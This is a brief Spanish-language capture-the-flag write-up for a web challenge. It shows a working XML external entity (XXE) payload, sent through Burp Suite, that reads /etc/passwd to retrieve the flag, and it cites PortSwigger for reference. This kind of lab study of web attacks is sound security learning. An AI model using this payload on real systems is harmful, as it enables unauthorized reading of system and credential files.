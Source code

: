 ## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
## Solución

```
Para resolver este reto tendremos que usar Burp Suite
```

![SOAP 1](/imagenes/SOAP(1).png)

```
Lo mandamos al repeater y ahi hacemos lo siguiente:

Metemos la linea: <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

y cambiamos 1 por &xxe;1 :

<data>
	<ID>
	&xxe;1
	</ID>
</data>
```

![SOAP 2](/imagenes/SOAP(2).png)

```
Como resultado nos dara el contenido del /etc/passwd y con el la flag
```

![SOAP 3](/imagenes/SOAP(3).png)

## Notas adicionales
## Referencias
[XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
